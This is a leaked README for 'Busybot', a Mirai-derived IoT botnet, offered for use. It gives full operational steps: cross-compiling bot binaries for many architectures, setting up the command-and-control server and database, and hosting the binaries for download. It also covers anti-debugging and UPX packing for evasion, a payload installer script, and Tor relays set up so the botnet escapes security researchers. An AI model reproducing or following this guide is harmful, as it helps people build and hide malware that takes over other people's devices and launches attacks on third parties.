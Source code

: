 ~ Busybot (1.6.a)

 - This isn't done, i only leaked it cause:
   A. shit source
   B. learning C++
   C. reason for motivation

 ~ Features:
   - Good evasion for standard library functions
   - Custom memory allocation
   - Fresh new attack parser
   - /proc/$pid/exe locker

 ~ Requirements:
   - CNC (recommended)
     - Ubuntu (x86)
     - 4GB Ram
     - 2vCores
     - 100MB Portspeed

   - Scan (recommended)
     - Debian (x86)
     - 6GB Ram
     - 4vCores
     - 1GB Portspeed

 ~ [1.0] Dependency installation:
   apt-get install gcc electric-fence wget mysql-server mysql-client apache2 screen golang -y

 ~ [1.1] Cross compiler installation:
   mkdir /etc/xcompile
   cd /etc/xcompile
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
   wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
   tar -jxf cross-compiler-armv4l.tar.bz2
   tar -jxf cross-compiler-i586.tar.bz2
   tar -jxf cross-compiler-m68k.tar.bz2
   tar -jxf cross-compiler-mips.tar.bz2
   tar -jxf cross-compiler-mipsel.tar.bz2
   tar -jxf cross-compiler-powerpc.tar.bz2
   tar -jxf cross-compiler-sh4.tar.bz2
   tar -jxf cross-compiler-sparc.tar.bz2
   rm *.tar.bz2
   mv cross-compiler-armv4l armv4l
   mv cross-compiler-i586 i586
   mv cross-compiler-m68k m68k
   mv cross-compiler-mips mips
   mv cross-compiler-mipsel mipsel
   mv cross-compiler-powerpc powerpc
   mv cross-compiler-sh4 sh4   
   mv cross-compiler-sparc sparc

 ~ [1.2] Cross compiler setup:
   nano ~/.bashrc -> Paste in the following lines:
   export PATH=$PATH:/etc/xcompile/armv4l/bin
   export PATH=$PATH:/etc/xcompile/armv6l/bin
   export PATH=$PATH:/etc/xcompile/i586/bin
   export PATH=$PATH:/etc/xcompile/m68k/bin
   export PATH=$PATH:/etc/xcompile/mips/bin
   export PATH=$PATH:/etc/xcompile/mipsel/bin
   export PATH=$PATH:/etc/xcompile/powerpc/bin
   export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
   export PATH=$PATH:/etc/xcompile/sh4/bin
   export PATH=$PATH:/etc/xcompile/sparc/bin
   function compile_bot {
       "$1-gcc" -std=c99 $3 bot/*.c -O3 -fomit-frame-pointer -fdata-sections -ffunction-sections -Wl,--gc-sections -o release/"$2" -DMIRAI_BOT_ARCH=\""$1"\"
       "$1-strip" release/"$2" -S --strip-unneeded --remove-section=.note.gnu.gold-version --remove-section=.comment --remove-section=.note --remove-section=.note.gnu.build-id --remove-section=.note.ABI-tag --remove-section=.jcr --remove-section=.got.plt --remove-section=.eh_frame --remove-section=.eh_frame_ptr --remove-section=.eh_frame_hdr
   }

~ [2.0] MySQL Setup:
   service mysql start
   mysql
     `USE mysql;`
     `ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password by 'mynewpassword';`
     `FLUSH PRIVILEGES;`
     `exit;`
   cat db.sql | mysql -pmynewpassword

 ~ [2.1] C&C Setup:
   - api/assets/config.json for editing the hosts
 
   cd api/
   go build
   rm -rf main.go core
   screen ./busybot

 ~ [2.3] Bot Setup:
   - tools/gen_keys.c for generating xor keus
   - tools/enc.c for encrypting strings
   - Change the domains in /bot/table.c (Set the domain to a onion domain if you want Tor)
   - Change the fake IP/Port in /bot/headers/includes.h
   - Change the SIP in /bot/headers/includes.h (single instance port)

   mkdir release/
   mkdir /var/www/html/bins
   compile_bot i586 x86 "-static"
   compile_bot mips mips "-static"
   compile_bot mipsel mpsl "-static"
   compile_bot armv4l arm "-static"
   compile_bot armv5l arm5n
   compile_bot armv6l arm7 "-static"
   compile_bot powerpc ppc "-static"
   compile_bot sparc spc "-static"
   compile_bot m68k m68k "-static"
   compile_bot sh4 sh4 "-static"
   compile_bot i586 dbg "-static -DDEBUG"
   cd release
   mv x86 mips mpsl arm arm5n arm7 ppc spc m68k sh4 /var/www/html/bins

 ~ [2.4] Elf corruption:
   gcc tools/anti_debug64.c -oantidbg64
   gcc tools/anti_debug32.c -oantidbg32
   => If the architecture is 32bit then use "antidbg32"
    > If the architecture is 64bit then use "antidbg64"
   ./antidbg64 release/<bin>
   ./antidbg32 release/<bin>

 ~ [2.5] UPX Packing:
   apt install upx -y
   upx -9 release/*

 ~ Payload installation (CentOS):
   yum install python2 python3 python3-pip python-pip -y
   python2 tools/payload.py

 ~ [3.0] Tor support:
   ~ Let's say you hate InfoSec/Journaling retards, and
     you don't want your botnet to be posted on krebs or
     MalwareMustDie, or stuff like that, what you could
     do is make your botnet completely decentralized and
     actually, busybot gives you complete support to do
     that, now you need 4 servers to do it, and follow
     along the steps.

   timedatectl set-timezone America/New_York
   apt install tor iptables ufw apt-transport-https -y

   ~ Now put the following lines in your repo list (/etc/apt/sources.list)
   deb http://deb.torproject.org/torproject.org focal main
   deb-src http://deb.torproject.org/torproject.org focal main

   wget -O- https://deb.torproject.org/torproject.org/A3C4F0F979CAA22CDBA8F512EE8CBC9E886DDD89.asc | sudo apt-key add -
   apt update && apt upgrade -y
   apt install tor deb.torproject.org-keyring -y
   nano /etc/tor/torrc
   ~ Now paste the following lines or find them and uncomment them out
   Nickname NodeNick
   ORPort 8040
   ExitRelay 0
   SocksPort 0
   ControlSocket 0
   ContactInfo your@email.com

   systemctl restart tor@default
   ufw allow 22; ufw allow 443; ufw allow 80; ufw allow 53; ufw allow 21; ufw allow 23
   ufw enable

   ~ It's quite recommennded to copy the Tor node keys
   scp -r root@200.200.200.200:/var/lib/tor/keys ./

   ~ Now your Tor node is: <SERVER IP>:<8040>
     Do this again 4 times on different servers.
